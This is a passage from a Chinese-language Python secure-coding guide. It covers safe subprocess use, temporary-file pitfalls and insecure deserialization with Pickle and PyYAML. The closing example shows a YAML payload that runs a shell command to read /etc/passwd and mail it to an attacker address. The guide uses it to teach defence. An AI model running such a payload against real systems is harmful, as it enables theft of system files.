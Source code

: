 显然，将`shell`关键字保持默认值`False`，并且提供命令及其参数的数组给`subprocess`函数，不要为外部命令执行调用UNIX shell，这样会安全得多。在这第二次调用格式，命令或者它的参数都不会被shell解析或展开。

```python

       >>> from subprocess import call
       >>>
       >>> call(['/bin/ls', '/tmp'])
    
```

如果应用的本质决定了使用UNIX shell服务，那么清理一切到`subprocess`的参数，确保没有不想要的shell功能可以被恶意用户利用，这完全是重要的。在更新的Python版本中，可以用标准库的[shlex.quote](https://docs.python.org/3/library/shlex.html#shlex.quote)函数来进行shell转义。

## 临时文件

由于基于临时文件的使用不当导致的漏洞在许多编程语言中皆有出现，而它们在Python中仍然惊人地常见，因此，在这里值得一提。

这类型的漏洞利用不安全的文件系统访问权限，可能涉及中间步骤，最终导致数据的机密性和完整性问题。一般问题的详细描述可以在[CWE-377](http://cwe.mitre.org/data/definitions/377.html)找到。

幸运的是，Python的标准库中自带了`tempfile`模块，它提供高层次函数，“以可能的最安全的方式”来创建临时文件名。注意，有缺陷的`tempfile.mktemp`实现，出于向后兼容的原因，它仍然存在于库中。必须永远不要使用`tempfile.mktemp`函数！取而代之，如果你需要在临时文件关闭后进行持久化，那么使用`tempfile.TemporaryFile`，或者`tempfile.mkstemp`。

另一种偶然引入漏洞的可能性是通过使用`shutil.copyfile`函数。这里的问题是，可能以最不安全的方式[创建](https://github.com/python/cpython/blob/master/Lib/shutil.py#L115)目标文件。

安全意识高的开发者可能会考虑首先将源文件复制到一个随机的临时文件名，然后将临时文件重命名为它最终的名字。虽然这可能看起来是一个好的方案，但是如果使用`shutil.move`函数来进行重命名，那么也是不安全的。麻烦的是，如果在文件系统，而不是最终文件所在的地方创建临时文件，那么`shutil.move`将无法自动地重命名(通过`os.rename`)，而是默默地求助于不安全的`shutil.copy`。一个处理措施是使用`os.rename`而不是`shutil.move`，因为`os.rename`保证跨文件系统边界的操作会有明确的失败。

进一步的并发症可能会在`shutil.copy`不能够拷贝所有的文件元数据的时候出现，可能使得创建的文件不受保护。

不完全是针对Python，当修改非主流类型的文件系统，特别是远程文件系统上的文件时必须小心。数据一致性保证倾向于在文件访问序列方面不同。作为一个例子，NFSv2并不遵守`open`系统调用的[O_EXCL](https://docs.python.org/3/library/os.html#os.O_EXCL)标志，而它是原子文件创建的关键。

## 不安全的反序列化

存在许多数据序列化计算，其中，[Pickle](https://docs.python.org/3/library/pickle.html)是专为反序列化/序列化Python对象而设计的。其目的在于将活动的Python对象转存储为用以存储或传输的字节流，然后将它们重新构造成(可能是)另一个Python实例。如果序列化数据被篡改，那么重新构造的过程则是潜在的风险。Pickle的不安全性是公认的，并且在Python文档中有明确指出。

作为一个流行的配置文件格式，YAML不一定被认为是一个能够诱使反序列化器执行任意代码的强大的序列化协议。让它甚至更危险的是，事实上Python的YAML默认实现 —— [PyYAML](http://pyyaml.org/wiki/PyYAMLDocumentation)让反序列化看起来非常无辜：

```python

       >>> import yaml
       >>>
       >>> dangerous_input = """
       ... some_option: !!python/object/apply:subprocess.call
       ...   args: [cat /etc/passwd | mail attacker@blackhat.com]
       ...   kwds: {shell: true}
       ... """
       >>> yaml.load(dangerous_input)
       {'some_option': 0}
    
```
